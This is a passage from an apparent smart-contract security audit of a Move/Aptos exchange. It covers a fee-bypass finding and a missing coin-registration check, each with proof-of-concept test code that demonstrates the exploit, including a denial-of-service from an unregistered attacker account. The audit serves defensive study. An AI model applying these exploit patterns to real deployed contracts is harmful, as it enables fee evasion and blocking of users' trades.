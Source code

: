 ```rust

    assert!(coin::balance<USDC>(address_of(user)) == my_usdc, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    let output = market::swap<USDC, ZEL>(user, my_usdc);

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == output, ERR_UNEXPECTED_BALANCE);
    assert!(output > 0, ERR_UNEXPECTED_BALANCE);

    assert!(market::get_protocol_fees<USDC>() == 0, ERR_UNEXPECTED_PROTOCOL_FEES);
    assert!(market::get_protocol_fees<ZEL>() == 0, ERR_UNEXPECTED_PROTOCOL_FEES); // no fees collected
}
```
#### Impact:
Users can bypass fees when removing liquidity, swapping, or limit swapping by placing multiple small orders.

### 6. Missing Account Registration Check for Coin 
The aptos_framework::coin module requires that a CoinStore exists on the target account when calling coin::deposit or coin::withdraw, so the account must be registered first with coin::register beforehand:

```rust
public fun register<CoinType>(account: &signer) {
    let account_addr = signer::address_of(account);
    // Short-circuit and do nothing if account is already registered for CoinType.
    if (is_account_registered<CoinType>(account_addr)) {
        return
    };
        // [...]
}
```

#### Description:
The execute_limit_order function does not check whether the account that will receive the quote coin is registered for the coin.

#### Impact:
The execute_limit_order function is called by execute_order which is called by fulfill_order and add_liquidity. If an attacker were to create a fullfill order that targets an account that is not registered for the quote coin, it will not possible to swap or add liquidity.

```rust
##[test(admin=@donkeyswap, user=@0x2222, attacker=@0x3333)]
##[expected_failure(abort_code=393221, location=coin)] // ECOIN_STORE_NOT_PUBLISHED
fun WHEN_exploit_lack_of_account_registered_check(admin: &signer, user: &signer, attacker: &signer) acquires CoinCapability {
    account::create_account_for_test(address_of(attacker));
    setup(admin, user);
    assert!(!coin::is_account_registered<ZEL>(address_of(attacker)), ERR_UNEXPECTED_ACCOUNT);

    // create limit order from attacker's account
    let my_usdc = 10_0000; // $10 USDC
    mint<USDC>(my_usdc, address_of(attacker));
    market::limit_swap<USDC, ZEL>(user, my_usdc, 0);

    // try to add liquidity from user's account, which tries to fulfill the order
    mint<USDC>(my_usdc, address_of(user));
    market::add_liquidity<USDC>(user, my_usdc); // this should abort
}
```
